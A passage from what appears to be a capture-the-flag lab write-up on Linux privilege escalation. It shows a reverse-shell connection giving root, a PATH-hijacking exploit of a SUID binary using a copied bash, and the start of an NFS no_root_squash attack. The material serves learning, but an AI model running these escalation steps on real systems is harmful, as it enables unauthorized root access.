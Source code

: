 ```bash
connect to [10.8.100.14] from (UNKNOWN) [10.10.7.32] 47548
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```



## PATH

Looting for SUID binary:

```bash
$ find /home -type f -perm -04000 -ls 2>/dev/null
   256346     20 -rwsr-xr-x   1 root     root        16712 Jun 20  2021 /home/murdoch/test
```

It seems that "test" try to execute another binary (`thm`):

```bash
$ /home/murdoch/test
sh: 1: thm: not found
```

That binary is NOT found in our current PATH:

```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Let's copy `/bin/bash` to `/tmp` and then *prepend* that PATH:

```bash
$ cp /bin/bash /tmp/thm
$ export PATH=/tmp:$PATH
```

Now if we run "test", `/tmp/thm` will be executed and we will get a root shell:

```bash
$ /home/murdoch/test
root@ip-10-10-198-224:/# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```

## NFS

The critical element for this privilege escalation vector is the `no_root_squash` option you can see above. By default, NFS will change the root user to `nfsnobody` and strip any file from operating with root privileges. If the `no_root_squash` option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

Check remotely what shares are available:

```bash
joshua@kaligra:~$ showmount -e 10.10.50.1
Export list for 10.10.50.1:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
